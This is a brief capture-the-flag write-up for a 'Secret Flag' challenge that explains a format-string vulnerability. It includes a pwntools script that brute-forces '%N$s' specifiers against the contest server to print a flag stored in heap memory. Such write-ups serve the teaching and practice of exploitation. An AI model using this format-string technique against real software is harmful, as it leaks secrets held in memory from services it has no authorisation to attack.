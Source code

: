 # Secret Flag

From the desc we know it's a format string. There's no symbol for main, 

so i opened it up in radare2. 

It opens mallocs a heap address, stores it on the stack, opens `flag.txt`, 

and reads it to that heap address. We can use the format specifier %s to read the flag by referencing this heap address. 

I didn't bother actually calculating the offset and just bruteforced it.

```python
from pwn import *
for i in range(30):
    tosend = f"%{i}$s"
    p = remote('2020.redpwnc.tf', 31826)
    p.recvlines(2)
    p.sendline(tosend)
    try:
        print(p.recvline())
    except:
        pass
    p.close()
```
